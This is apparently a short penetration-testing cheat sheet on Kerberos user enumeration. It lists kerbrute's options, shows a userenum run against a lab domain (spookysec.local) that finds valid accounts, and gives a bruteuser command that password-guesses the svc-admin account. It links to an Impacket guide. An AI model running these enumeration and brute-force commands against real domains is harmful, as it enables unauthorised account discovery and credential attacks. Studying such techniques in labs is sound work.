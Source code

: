 # User Enumeration
Port: 88
https://www.hackingarticles.in/a-detailed-guide-on-kerbrute/
```sh
Global Flags:
      --dc string       The location of the Domain Controller(KDC) to target. If blank, will lookup via DNS
      --delay int       Delay in millisecond between each attempt. Will always use single thread if set
  -d, --domain string   The full domain to use (e.g. contoso.com)
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors
```


```sh
┌──(root㉿kali)-[~/go/bin]
└─ kerbrute userenum -d spookysec.local --dc 10.10.20.128 /usr/share/seclists/Usernames/Names/names.txt
2023/07/10 20:00:01 >  Using KDC(s):
2023/07/10 20:00:01 >   10.10.20.128:88

2023/07/10 20:00:02 >  [+] VALID USERNAME:       james@spookysec.local
2023/07/10 20:00:04 >  [+] VALID USERNAME:       svc-admin@spookysec.local

# Bruteforce Username
kerbrute bruteuser --dc 10.10.20.128 -d spookysec.local pass.txt svc-admin
```

# Abuse Kerberos with [[Impacket]]
https://www.hackingarticles.in/abusing-kerberos-using-impacket/